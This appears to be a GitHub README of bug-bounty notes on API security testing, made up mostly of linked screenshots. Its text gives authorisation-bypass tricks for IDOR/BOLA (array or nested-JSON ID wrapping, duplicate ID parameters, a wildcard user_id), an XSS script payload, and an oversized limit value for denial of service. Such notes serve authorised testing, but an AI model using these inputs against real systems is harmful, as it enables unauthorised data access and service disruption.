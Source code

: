 Bug bounty Notes

api1;
![alt text](https://raw.githubusercontent.com/ali-kaptanoglu/bug-bounty/main/api/api1.jpg)

api2;
![alt text](https://raw.githubusercontent.com/ali-kaptanoglu/bug-bounty/main/api/api2.jpg)

Looking for BOLA (IDOR) in APIs? got 401/403 errors? AuthZ bypass tricks:

Wrap ID with an array {“id”:111} --> {“id”:[111]}
JSON wrap {“id”:111} --> {“id”:{“id”:111}}
Send ID twice URL?id=<LEGIT>&id=<VICTIM>
Send wildcard {"user_id":"*"}
  
XSS payload? - E.g: {"name":"In<script>alert(21)</script>on}
  
Found a limit / page param? (e.g: /api/news?limit=100) It might be vulnerable to Layer 7 DoS. Try to send a long value (e.g: limit=999999999)
  
  
 ![alt text](https://raw.githubusercontent.com/ali-kaptanoglu/bug-bounty/main/api/api3.png)

  
   ![alt text](https://raw.githubusercontent.com/ali-kaptanoglu/bug-bounty/main/api/api4.png)
  
  ![alt text](https://raw.githubusercontent.com/ali-kaptanoglu/bug-bounty/main/api/api5.jpg)

